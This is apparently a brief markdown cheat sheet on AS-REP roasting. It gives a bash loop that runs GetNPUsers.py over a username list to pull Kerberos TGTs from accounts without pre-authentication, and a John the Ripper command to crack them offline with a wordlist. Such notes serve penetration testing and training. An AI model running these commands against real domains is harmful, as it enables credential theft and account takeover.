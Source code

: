 # ASREPRosting

## Given a list of valid domain usernames, query the KDC / Kerberos server to determine which has the "does not require pre-authentication" option set. You can retrieve the TGT of each account that does, and then crack them offline using JTR

* Attempt to get the TGT for each user account

```bash
for u in $(cat $USERNAME_FILE)
do
    GetNPUsers.py $DNS_DOMAIN_NAME/$u
done
```

* Save recovered TGTs to tgt.txt

* Attempt to crack recovered TGTs

```bash
john tgt.txt --wordlist=$PASSWORD_LIST
```

